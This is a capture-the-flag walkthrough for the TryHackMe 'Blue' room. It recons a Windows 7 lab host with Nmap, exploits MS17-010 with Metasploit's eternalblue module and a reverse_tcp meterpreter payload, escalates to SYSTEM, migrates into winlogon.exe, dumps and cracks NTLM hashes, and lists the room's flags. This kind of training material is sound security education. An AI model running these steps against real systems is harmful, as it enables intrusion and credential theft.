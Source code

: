 
Title: Eternal Blue Machine (TryHackMe)
Link: https://tryhackme.com/room/blue
Description: This lab discusses on using the smb v1 vulnerable to eternal blue to get immediate Critical Remote Code Execution.(RCE) 

```
export IP=10.10.113.13
```

# Task 1: (Recon)

Nmap scan 

```(nmap)
nmap -sC -sV -vv -Pn $IP
Reason: 991 resets
PORT      STATE SERVICE       REASON          VERSION
135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  syn-ack ttl 125 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Service
49152/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49153/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49154/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49158/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49160/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h40m07s, deviation: 2h53m13s, median: 6s
| nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:3d:7a:c3:a9:c8 (unknown)
| Names:
|   JON-PC<00>           Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   JON-PC<20>           Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   02 3d 7a c3 a9 c8 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 45702/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 64617/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 26205/udp): CLEAN (Failed to receive data)
|   Check 4 (port 4771/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-07-18T06:11:58-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-18T11:11:58
|_  start_date: 2020-07-18T10:08:58
```

So, we have 3 port open under 1000 [135,139,445]

```(nmap scripting engine)
nmap --script=smb-vuln* $IP

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

```

Vulnerability: ms17-010(Eternal Blue)


# Task 2: (Gain Access)

Open Metasploit and set the following options.

```(msfconsole)
msfconsole
use eternalblue
set RHOST [vuln-machine]
set LHOST [our-vpn-ip/Listeners-ip]
set payload windows/x64/meterpreter/reverse_tcp
```

Lets get a meterpreter shell from a normal DOS shell now if we get a DOS shell

# Task 3: (Esclate Privileges)

We use the shell_to_meterpreter module to esclate the DOS shell 

```(upgrading shell)
use shell_to_meterpreter
set SESSION [session-id]
run
```
Now we are greeted with a meterpreter shell.

Lets verify if we are NT Authority/System

```(meterpreter)
getuid
getsystem
shell
```

Lets try to check who we are in the DOS shell. Just because we are NT Authority/System doesnot imply our process is NT Authority so, we migrate our process to a process running on the nt authority/system by using its pid or pname.

```(shell)
whoami
migrate -N winlogon.exe
```

# Task 4: (Cracking)

Use hashdump to dump all of the passwords on the machine as long as we have the correct privileges to do so.

```
hashdump
``` 

Using Crackstation or john to crack the NTLM hash

```(Credentials)
username:password  Jon:alqfna22
```
# Task 5: (Find flags)

The first flag is located on ` C:/>flag1.txt `

```(Flag 1)
flag{access_the_machine}
```

In order to crack passwords you must first obtain the hashes stored within the operating system. These hashes are stored in the Windows SAM file. This file is located on your system at C:\Windows\System32\config but is not accessible while the operating system is booted up.

`C:/Windows/System32/config`

```(Flag 2)
flag{sam_database_elevated_access}
```

```
search -f flag*.txt
```

```(Flag 3)
flag{admin_documents_can_be_valuable}
```